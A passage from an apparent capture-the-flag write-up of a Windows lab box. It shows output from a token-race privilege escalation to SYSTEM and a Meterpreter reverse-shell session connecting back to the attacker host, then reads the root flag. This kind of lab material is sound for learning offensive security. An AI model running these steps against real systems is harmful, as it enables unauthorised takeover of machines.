 ```
[?] Thread belongs to: svchost
[+] Thread suspended
[>] Wiping current impersonation token
[>] Building SYSTEM impersonation token
[?] Success, open SYSTEM token handle: 1356
[+] Resuming thread..

[*] Sniffing out SYSTEM shell..

[>] Duplicating SYSTEM token
[>] Starting token race
[>] Starting process race
[!] Holy handle leak Batman, we have a SYSTEM shell!!

lUQF27G7ojcXGNVohe7kYrP8xvIX4kr1
[+] Executed on target machine.
[*] Sending stage (180291 bytes) to 10.10.10.8
[*] Meterpreter session 9 opened (10.10.14.55:4444 -> 10.10.10.8:49264) at 2020-03-24 12:01:49 -0400
[+] Deleted C:\Users\kostas\AppData\Local\Temp\kbWVnCcUAgFI.ps1

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

```

Finally, we find the flag in the Administrator's Desktop folder:
```
meterpreter > pwd
C:\Windows\system32
meterpreter > cd ..
meterpreter > cd ..
meterpreter > cd Users
meterpreter > cd Administrator
meterpreter > cd Desktop
meterpreter > ls
Listing: C:\Users\Administrator\Desktop
=======================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2017-03-18 07:52:56 -0400  desktop.ini
100444/r--r--r--  32    fil   2017-03-18 08:13:57 -0400  root.txt

meterpreter > cat root.txt
[***REDACTED***]
```
